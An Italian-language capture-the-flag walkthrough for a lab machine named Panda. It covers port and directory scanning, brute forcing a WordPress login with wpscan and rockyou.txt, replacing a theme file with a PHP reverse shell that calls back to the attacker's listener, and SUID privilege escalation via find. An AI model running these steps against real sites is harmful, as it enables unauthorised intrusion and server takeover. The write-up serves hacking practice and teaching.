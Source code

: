 # PANDA

partiamo con lo scan delle porte

### ENUM

```bash
nmap panda.thm -sV -sC 
```

ottimo abbiamo la porta 80 aperta quindi una pagina web andiamo a controllarla

nulla di interessante solo un immagine

facciamo una ricerca delle directory

```bash
gobuster dir -u http://panda.thm/ -w /usr/share/wordlists/dirb/big.txt
```

interessante abbiamo la directory con  /Wordpress

guardiamo cosa c'è
```bash
http://panda.thm/wordpress
```
se c'è un pagina wordpress c'è un login quasi il 99% delle volte se non il 100%

controlliamo 
```bash
http://panda.thm/wordpress/wp-login.php
```

eccola 

facciamo uno scan insieme al brute force con WPSCAN
```bash
wpscan --url http://panda.thm/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt
```

ecco qua il nostro utente po

accediamo alla pagina
## REVERSE SHELL
(spiegazione)
per chi avesse già esperienza con wordpress saltare questa spiegazione invece per chi non avesse mai visto questo CMS ci sono delle fasi che dovete imparare
wordpress lavora principalmente a pagine sotto pagine e temi molti di quest'ultimi sono vulnerabili perchè vanno ad aggiungere codice che potrebbe non essere controllato o che può avere insicurezze del codice 
quello che andrò a fare nei passaggi successivi userà un vulnerabilità del non controllo del codice.
(spiegazione)

su word press per andare a modificare i vari path del cms c'è un menu a tendina sulla destra. apritelo e andate nella sezione APPARENCE, una volta fatto click vi si dovrebbe aprire un sotto menu con varie opzioni.
andate a selezionare editor e successivamente vi si apre un menu sulla pagina (sulla destra), andate in questo menu e selezionate la sezione comment.php.
tramite questa sezione vi si apre un editor a schermo di questa pagina cancellate qualsiasi cosa ci sia scritta sopra, in modo da rendere la pagina vuota e aggiungete una reverse shell (vi consiglio https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
ricordate di cambiare nel php questi valori 
```bash
$ip = '127.0.0.1';  // CHANGE THIS 
$port = 1234;       // CHANGE THIS
```
mettete il vostro ip e la vostra porta dove ascolterete il traffico.

salvate questa pagina con l'apposito tasto.


ora avviamo l'ascolto sulla nostra macchina.
```bash
nc -lvnp porta scelta nel php
es. nc -lvnp 1234
```
ora tutto è pronto.

chiamiamo il nostro php tramite url (provate ad indovinare qual'è l'url) (hint: ricordatevi dove avete salvato il php)

ecco qua che si avvia la nostra shell con l'utente shifu facciamo privesc
## PRIVESC

```bash
find / -perm -4000 2>/dev/null
```

interessante abbiamo una vulnerabilità di tipo suid su find controllate GTFO.BINS per avere i privilegi di root




